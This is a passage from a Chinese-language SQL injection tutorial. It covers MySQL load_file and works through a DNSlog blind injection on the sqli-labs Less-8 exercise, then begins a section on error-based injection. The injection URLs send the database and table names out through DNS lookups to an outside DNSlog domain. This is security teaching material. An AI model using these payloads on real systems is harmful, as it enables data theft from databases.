 使用案例：`select load_file('D:/1.txt') as result;`读取D盘中的1.txt文件内容：load file test

{{< admonition >}}

使用该函数必须有权限读取并且文件必须完全可读

{{< /admonition >}}

<img src="https://s1.vika.cn/space/2023/04/01/ec607759342d4a36a644737b486d4c91"/>

#### DNSlog盲注实例

以sql-labs题目的第八题为例：

<img src="https://s1.vika.cn/space/2023/04/01/f47558521b30421b896be34f2c1e8395" style="zoom: 67%;" />

```sql
--获取当前数据库名
http://localhost/sqli-labs/Less-8/?id=1' and load_file(concat('//',database(),'.0e9cc54a.ipv6.1433.eu.org/a'))--+
--获取表名
http://localhost/sqli-labs/Less-8/?id=1' and load_file(concat('//',(select table_name from information_schema.tables where table_schema='security' limit 3,1),'.0e9cc54a.ipv6.1433.eu.org/a'))--+
--后续的步骤与手动注入类似
```

下图是获取到的表名：

<img src="https://s1.vika.cn/space/2023/04/01/a8050e2c2e8f46ac9b35a39d659a8f2e" style="zoom:80%;" />

{{< admonition title=注意事项 >}}

1、由于每一级域名的长度只能为63个字符，长度过长时需要截断获取

2、因为存在特殊符号时无法解析所以常对查询内容使用hex编码

3、Linux服务器没有unc路径，也就无法使用dnslog注入

4、读取文件必须小于`max_allowed_packet`

{{< /admonition >}}

## 7、报错型注入

### 7.1 原理

> 用于使用 SQL 语句报错的语法，用于注入结果无回显，但显示错误信息有输出的情况
>
> 返回的信息即是攻击者需要的信息

MySQL 报错注入主要分为以下几类：

1. BigInt 等数据类型溢出
2. Xpath 语法错误
3. count() + rand() + group by 导致主键重复
4. 空间数据类型函数错误
